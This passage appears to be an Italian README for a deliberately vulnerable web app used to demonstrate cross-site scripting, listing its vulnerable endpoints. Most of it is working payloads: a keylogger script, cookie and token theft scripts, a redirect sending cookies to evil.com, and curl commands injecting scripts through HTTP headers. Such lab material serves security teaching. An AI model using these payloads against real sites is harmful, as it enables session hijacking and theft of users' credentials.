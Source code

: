 ### 2. **Stored XSS** (Persistent)
Il payload viene memorizzato nel server e eseguito ogni volta che la pagina viene visualizzata.

**Endpoint vulnerabili:**
- `POST /comment` - Sistema di commenti
- `POST /guestbook` - Libro degli ospiti
- `POST /update-profile` - Aggiornamento profilo utente

**Esempi di payload:**
```javascript
// Script persistente
<script>alert('Stored XSS')</script>

// Keylogger
<script>document.onkeypress=function(e){fetch('/keylog?key='+e.key)}</script>

// Cookie theft persistente
<img src=x onerror=fetch('/steal-cookie?source=stored&c='+document.cookie)>

// Redirect malevolo
<script>window.location='http://evil.com/steal?data='+document.cookie</script>
```

### 3. **Header-based XSS**
XSS tramite manipolazione degli header HTTP (User-Agent, Referer, etc.).

**Endpoint vulnerabile:**
- `GET /header-info`

**Esempi di attacco:**
```bash
# Modifica User-Agent
curl -H "User-Agent: <script>alert('Header XSS')</script>" http://localhost:3001/header-info

# Referer malevolo
curl -H "Referer: javascript:alert('XSS')" http://localhost:3001/header-info

# Custom header
curl -H "X-Forwarded-For: <img src=x onerror=alert('XSS')>" http://localhost:3001/header-info
```

### 4. **Session/Token-based Attacks**
Dimostrazione di come XSS può compromettere sessioni e rubare token di autenticazione.

**Funzionalità:**
- Login con token insicuri (`POST /login`)
- Dashboard con informazioni sensibili (`GET /dashboard`)
- Cookie non protetti (httpOnly: false)

**Esempi di attacco:**
```javascript
// Rubare tutti i cookie
<script>fetch('/steal-cookie?c='+document.cookie)</script>

// Rubare session token specifico
<script>
  let token = document.cookie.match(/authToken=([^;]+)/)[1];
  fetch('/steal-token?token='+token);
</script>

// Session hijacking
<script>fetch('/hijack?session='+document.cookie)</script>
```
